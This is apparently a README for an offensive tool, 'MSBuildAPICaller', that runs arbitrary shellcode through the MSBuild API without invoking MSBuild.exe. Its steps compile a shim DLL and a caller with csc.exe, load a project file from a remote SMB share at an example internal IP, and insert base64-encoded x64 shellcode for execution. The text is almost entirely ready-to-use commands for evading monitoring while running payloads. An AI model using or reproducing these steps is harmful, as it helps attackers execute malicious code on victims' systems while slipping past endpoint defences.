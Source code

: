 # MSBuildAPICaller
 MSBuild Without MSBuild.exe


# How to build and execute

## Step 1: Build IEShim.cs
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe /reference:"Microsoft.Build.Framework.dll";"Microsoft.Build.Tasks.v4.0.dll";"Microsoft.Build.Utilities.v4.0.dll" /target:library IEShim.cs

## Step 2: Modify "projectPath" variable on line 60 of msbuildapicaller.cs to your needs
## Example: string projectPath = '\\\\192.168.1.100\\share\\msbuildapicaller.csproj';

## Step 3: Build msbuildapicaller.cs
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe /reference:"Microsoft.Build.Framework.dll";"Microsoft.Build.dll";"Microsoft.Build.Engine.dll";"Microsoft.Build.Utilities.v4.0.dll";"System.Runtime.dll" /target:exe msbuildapicaller.cs

## Step 4: Replace <Base64 Encoded x64 Shellcode>  with your base64 encoded x64 shellcode in msbuildapicaller.csproj

## Step 5: Replace AssemblyFile variable with the location of your compiled dll from step 1

## Step 6: Execute msbuildapicaller.exe
